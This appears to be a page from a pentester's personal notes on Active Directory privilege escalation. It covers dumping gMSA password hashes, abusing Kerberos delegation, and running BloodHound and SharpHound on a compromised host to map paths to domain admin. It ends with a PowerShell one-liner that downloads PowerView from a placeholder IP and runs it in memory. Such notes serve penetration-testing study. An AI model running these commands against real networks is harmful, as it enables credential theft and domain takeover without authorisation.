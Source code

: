 ```yaml
---
description: Active Directory Privilege Escalation
---
```


# Active Directory

## **Group Managed Service Accounts (gMSA)**

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

If you have access to a user account who has permissions to read the managed password, then you can do so like this:

**WARNING: gMSADumper.py gets the password HASH**. You can also get the actual password though, I think, using other tools.

```
# https://github.com/micahvandeusen/gMSADumper
python3 gMSADumper.py -u User -p Password1 -d domain.local
```

You can also use a **hash** instead of a password with gMSADumper.

If you're not sure whether you can read managed passwords, then the attribute you need to look for in Ad is **msDS-GroupMSAMembership (PrincipalsAllowedToRetrieveManagedPassword)**. It stores the security principals that can access the GMSA password.



**TrustedToAuthForDelegation**

{% embed url="https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/" %}

If an AD user has the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** (constrained delegation) or **ADS\_UF\_TRUSTED\_FOR\_DELEGATION** (unconstrained delegation) field set in their userAccountControl, then they can request tickets on behalf of other users, without knowing their password.&#x20;

* **Unconstrained** - you can request a ticket for any service as any user that doesn't have ‘Account is sensitive and cannot be delegated’ enabled.
  * If a user cannot be delegated, then it has **NOT\_DELEGATED** in its userAccountControl attribute
* **Constrained** - you can request a ticket for a specific service as any user that doesn't have ‘Account is sensitive and cannot be delegated’ enabled.
  * Specifically, you can request a service ticket to any SPN specified in msds-allowedtodelegateto.

### **Enumeration**

You could use PowerView’s **-TrustedToAuth** flag for **Get-DomainUser/Get-DomainComputer**. Look at [harmj0y's post](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) to see the full command.

Alternatively, if you dumped the active directory with something like [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump), then you might also notice the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** or **ADS\_UF\_TRUSTED\_FOR\_DELEGATION** flags.

### **Exploitation**

Sources:

* Exploit using [Windows-based tools](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
* Exploit using [Linux-based tools](https://labs.f-secure.com/archive/trust-years-to-earn-seconds-to-break/)

## **Pivoting Using Bloodhound**

You can use BloodHound to find active directory attack paths.

### **BloodHound Installation**

You can download it from apt in kali. For the latest version, though, download the github repo:

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

Also download the executable from Releases (linux x64).

For instructions on how to set it up, take a look at Ippsec's video on HackTheBox Forest at \~46 minutes.

{% embed url="https://youtu.be/H9FcE_FMZio?t=2660" %}

### **Setup and graph generation**

First, you have to start up the neo4j console.&#x20;

```
sudo neo4j console

```

Then, you can run the bloodhound GUI application.

Default credentials for neo4j are **neo4j:neo4j** (unless you changed them). If it's your first time running neo4j, you need to change the credentials.

To actually get the data into BloodHound, you need to run SharpHound.exe on a compromised windows machine.

Find the executable in your Linux machine:

```
locate SharpHound.exe
```

For me it was in `/usr/lib/bloodhound/resources/app/Collectors/`.

Transfer sharphound to the compromised machine and run it.&#x20;

```
./SharpHound.exe -c all
```

Afterwards, send the generated file back to your linux box.

Open up a file manager and drag-and-drop the generated zip file into the bloodhound GUI. It will extract and import.

### **Using BloodHound**

First, search for the user you have compromised in the top filter, right click it and mark the user as owned.

Open up the menu at the top and click on "Analysis" (may also be "Queries"). It's a tab in the Database Info menu. For example, you can do "Shortest Paths to domain admins from Kerberoastable Users" if you're looking to kerberoast something. If you're looking to go from an owned user to ad admin, then select "shortest path to domain admin from owned principals". The "all interesting paths" option is the useful query for the general term.

For each node connection, you can right click and click "info". That specifies what the permission does, as well as how to abuse it with copy-pastable commands (though you might have to tweak them to get them to work sometimes). Most of the commands use PowerView (**the version from the dev branch!**) - A link to powerview is provided in the **References tab**.

Use this command if you've got powerview downloaded to the machine:&#x20;

```
Import-Module ./PowerView.ps1
```

Or this command to import the functions over HTTP:

```
IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/PowerView.ps1')
```
